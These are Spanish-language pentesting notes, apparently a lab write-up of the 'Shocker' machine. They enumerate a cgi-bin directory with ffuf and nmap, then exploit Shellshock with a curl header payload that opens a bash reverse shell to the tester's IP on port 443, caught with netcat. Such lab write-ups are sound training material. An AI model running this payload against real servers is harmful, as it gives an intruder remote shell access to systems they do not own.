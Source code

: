 # Enumeracion 
Al existir el directorio /cgi-bin/ vamos a enumerar con [[2 - FFUF]] archivos con extensiones ``.sh .pl .cgi`` 

```shell
ffuf -u http://PaginaWeb/cgi-bin/FUZZ -w Diccionario -e .sh,.pl,.cgi
Ejemplo practico: ffuf -u http://10.10.10.56/cgi-bin/FUZZ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -e .sh,.pl,.cgi
```
![[Shocker6.png]]

Y da que en el directorio cgi-bin hay un archivo user.sh   `http://10.10.10.56/cgi-bin/user.sh`
Como estamos ante el directorio cgi-bin, ejecutamos un comando de enumaracion de shellshock de `nmap`:
```shell
nmap -p80 10.10.10.56 --script http-shellshock --script-args uri=/cgi-bin/user.sh
```
Dice que es vulnerable a shellshock, asi que ahora vamos a explotarlo
![[Shocker7.png]]


# Explotación

[Articulo de shellshock](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/cgi.html)
Vamos a usar el comando de curl para mandar el payload
```shell
curl -s -X GET "http://Webvictima/cgi-bin/ArchivoVulnerable" -H "User-Agent: () { :; };echo;echo; /bin/bash -i >& /dev/tcp/IpDeNuestraMaquina/Puerto 0>&1"
Ejemplo del comando: curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent: () { :; };echo;echo; /bin/bash -i >& /dev/tcp/10.10.16.6/443 0>&1"
```
*Parametros*
	`-s` Es de silent para no mostrar tanto output que no nos sirve
	`-X GET` es el metodo por el que vamos a enviar la peticion
	`-h` Es para podificar la cabecera que vamos a enviar que en este caso inyecta el payload

*Cosas atener en cuenta*
	acá no se usa el %26 para el & por que estamos dentro de bash y no se va a decodificar
	se pone el ;echo;echo para separar el payload malioso del comando, aveves

Esto va a ejecutar una revershell por lo que nos vamos a poner en escucha por el puerto 443 con [[nc -nlvp 443]]
```shell
nc -nlvp Puerto
Ejemplo: nc -nlvp 443
```
	
![[Shocker8.png]]



# Notas

## Extensiones .sh .pl. cgi
**.sh** El lenguaje es bash  
**.pl** Lenguaje Perl  
**.cgi** Common Gateway Interface Script

*¿Dónde se usan los archivos .cgi?*

- En servidores antiguos o simples que no usan PHP, Node.js, etc.
- En aplicaciones legacy que usan Perl o Bash.
- En entornos educativos o demostrativos.